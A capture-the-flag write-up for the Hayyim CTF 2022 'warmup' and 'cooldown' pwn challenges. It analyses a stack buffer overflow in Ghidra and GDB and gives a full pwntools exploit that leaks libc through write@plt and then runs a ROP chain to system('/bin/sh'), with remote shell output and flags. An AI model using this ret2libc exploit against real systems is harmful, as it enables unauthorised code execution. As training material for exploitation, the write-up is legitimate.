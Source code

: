 # Hayyim CTF 2022

## warmup

> What a tiny program!
>
> `nc 141.164.48.191 10001`
>
> [`Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz`](Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz)

## cooldown

> input size has decreased.
>
> `nc 141.164.48.191 10005`
>
> [`Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz`](Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz)

Tags: _pwn_ _x86-64_ _rop_ _bof_


## Summary

Warmup and cooldown are exactly the same problem only differing by size of input buffer.  I used the exact same code on both, so will only cover cooldown.

In short, use `write` to leak libc, then on second pass get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE will make it easy to call GOT functions and ROP, however Full RELRO will prevent modifying the GOT.  No canary, well, this _is_ a BOF/ROP challenge.


### Decompile with Ghidra

```c
void FUN_0040053d(void)
{
  long lVar1;
  undefined4 *puVar2;
  undefined4 auStack56 [12];
  
  puVar2 = auStack56;
  for (lVar1 = 0xc; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  write(1,&DAT_0040057e,2);
  read(0,auStack56,0x60);
  return;
}
```

`read(0,auStack56,0x60)` will `read` up to `0x60` (96) bytes into a buffer only `56` (`auStack56`) bytes from the return address--there's your problem.  This gives us 40 bytes to craft an exploit--we only need 24.

`FUN_0040053d` (above) is our vulnerable function and is called by `entry`:

```
void entry(void)
{
  FUN_004004f9();
  FUN_0040053d();
  exit(0);
}
```

From the `entry` disassembly you can see that after the call to `FUN_0040053d` we'll return to `0x4004f2`:

```
undefined entry()

004004e0 48 83 ec 08     SUB        RSP,0x8
004004e4 31 c0           XOR        EAX,EAX
004004e6 e8 0e 00        CALL       FUN_004004f9
         00 00
004004eb 31 c0           XOR        EAX,EAX
004004ed e8 4b 00        CALL       FUN_0040053d
         00 00
004004f2 31 ff           XOR        EDI,EDI
004004f4 e8 d7 ff        CALL       <EXTERNAL>::exit
         ff ff
```

If set set a break point after `read(0,auStack56,0x60);`, you'll see that same return address on the stack and below that an address we're going to leak to get the location of libc:

```
0x00007fffffffe408│+0x0000: 0x0000000a68616c62 ("blah\n"?)	 ← $rbx, $rsp, $rsi
0x00007fffffffe410│+0x0008: 0x0000000000000000
0x00007fffffffe418│+0x0010: 0x0000000000000000
0x00007fffffffe420│+0x0018: 0x0000000000000000
0x00007fffffffe428│+0x0020: 0x0000000000000000
0x00007fffffffe430│+0x0028: 0x0000000000000000
0x00007fffffffe438│+0x0030: 0x0000000000000000
0x00007fffffffe440│+0x0038: 0x00000000004004f2  →   xor edi, edi
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
```

That location has a side benefit, it will jump back to `entry`:

```
gef➤  x/3i _dl_start_user+50
   0x7ffff7dd40ca <_dl_start_user+50>:	lea    rdx,[rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
   0x7ffff7dd40d1 <_dl_start_user+57>:	mov    rsp,r13
   0x7ffff7dd40d4 <_dl_start_user+60>:	jmp    r12
   
gef➤  p $r12
$1 = 0x4004e0
```

So we get a free roundtrip, to leak this we simply need to overwrite the return address (and nothing else) with `binary.plt.write`.

`write` requires 3 arguments, FD (`rdi`), buffer address (`rsi`), and length (`rdx`).  All three are set by the previous `read` call.  Basically we're just going to write `0x60` bytes starting at the `read` buffer.  This will leak the location of `_dl_start_user+50` and we can use that to leak libc.

> _But `rdi` is `0` not `1`, isn't `0` `stdin`?_
> 
> Yes it is, but these are just conventions.  From your shell type `echo nothing >&0`, see, you got `nothing`, which is actually _something_.

With the leak and a second pass, we can just write out a simple ROP chain to get a shell.


## Exploit Development Environment

From the included `Dockerfile`:

```
FROM ubuntu:18.04
```

So I just used an Ubuntu 18.04 Docker image for exploit development.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cooldown', checksec=False)

if args.REMOTE:
    p = remote('141.164.48.191', 10005)
    libc = ELF('./libc.so.6', checksec=False)
else:
    s = process('socat TCP-LISTEN:9999,reuseaddr,fork EXEC:./cooldown,pty,setsid,sigint,sane,rawer'.split())
    p = remote('127.0.0.1', 9999)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
```

pwntools header.

> I'm using `socat` vs. `process(binary.path)` since pwntools `process` does not deal well with output being written to FD `0`.  I do not know of an easy way to fix this with pwntools so I just start up `socat` and then connect to that.

```python
payload  = b''
payload += 56 * b'A'
payload += p64(binary.plt.write)

p.sendafter(b'> ',payload)
p.recv(len(payload))
```

As mentioned in the Analysis section, we're just going to send `56` bytes to get to the return address and then overwrite that with a call to `write` from the PLT.

Then we just need to receive our payload, ignore it and move on.

```python
'''
stack:
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>

vmmap:
0x00007ffff79e2000 0x00007ffff7bc9000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bc9000 0x00007ffff7dc9000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dc9000 0x00007ffff7dcd000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcd000 0x00007ffff7dcf000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd3000 0x0000000000000000 rw-
0x00007ffff7dd3000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
'''

libc.address = u64(p.recv(8)) - (0x00007ffff7dd40ca - 0x00007ffff79e2000)
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

The next 8 bytes will be the location of `_dl_start_user+50`.  The comment section above is my GDB stack and vmmap info.  We just need to compute the difference from the GDB stack leak to the base of [vmmap] libc and then subtract that constant from our remote leak (`u64(p.recv(8))`)

```python
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()

payload  = b''
payload += 56 * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

assert(len(payload) <= 0x60)

p.sendafter(b'> ',payload)
p.interactive()
```

Finally your everyday ROP chain given you have a libc leak.

Output (warmup):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10001: Done
[*] libc.address: 0x7f7306204000
[*] Switching to interactive mode
$ cat flag
hsctf{0rigin4l_inpu7_1eng7h_w4s_0x60}
```

Output (cooldown):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10005: Done
[*] libc.address: 0x7f94b44b0000
[*] Switching to interactive mode
$ cat flag
hsctf{ACB31ABDE038159C3D7949CFC01CE100}
```
